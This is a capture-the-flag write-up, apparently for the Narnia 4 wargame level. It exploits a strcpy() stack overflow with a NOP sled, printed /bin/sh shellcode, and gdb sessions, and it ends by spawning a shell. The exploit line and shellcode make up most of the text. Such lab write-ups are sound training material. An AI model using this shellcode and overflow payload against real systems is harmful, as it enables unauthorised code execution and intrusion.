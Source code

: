 So, **256** bytes of garbage and **4** more bytes to overwrite the return address. To exploit this one I used the following shellcode :

```text
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

Let's find a return address. Here, I placed a return address right after the *strcpy()* call :

```nasm
(gdb) break *main+121
Breakpoint 1 at 0x8048524

(gdb) run $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + 4 * "B"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia4 $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + 4 * "B"')

Breakpoint 1, 0x08048524 in main ()
(gdb) x/100x $esp+600
0xffffd6e4:	0x00000000	0x00000009	0x080483b0	0x0000000b
0xffffd6f4:	0x000036b4	0x0000000c	0x000036b4	0x0000000d
0xffffd704:	0x000036b4	0x0000000e	0x000036b4	0x00000017
0xffffd714:	0x00000001	0x00000019	0xffffd74b	0x0000001a
0xffffd724:	0x00000000	0x0000001f	0xffffdfe8	0x0000000f
0xffffd734:	0xffffd75b	0x00000000	0x00000000	0x00000000
0xffffd744:	0x00000000	0xb9000000	0x47bfa236	0xde88977b
0xffffd754:	0x969dbe24	0x69e65cf5	0x00363836	0x00000000
0xffffd764:	0x00000000	0x616e2f00	0x61696e72	0x72616e2f
0xffffd774:	0x3461696e	0x90909000	0x90909090	0x90909090
0xffffd784:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd794:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7a4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7b4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7c4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7d4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7e4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7f4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd804:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd814:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd824:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd834:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd844:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd854:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd864:	0x50c03190	0x732f2f68	0x622f6868	0xe3896e69
```

We'll use `0xffffd7b4` as it is in the middle of the *NOP sled*.

```nasm
(gdb) run $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xb4\xd7\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia4 $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xb4\xd7\xff\xff"')

Breakpoint 1, 0x08048524 in main ()
(gdb) conti
Continuing.
process 22763 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
```
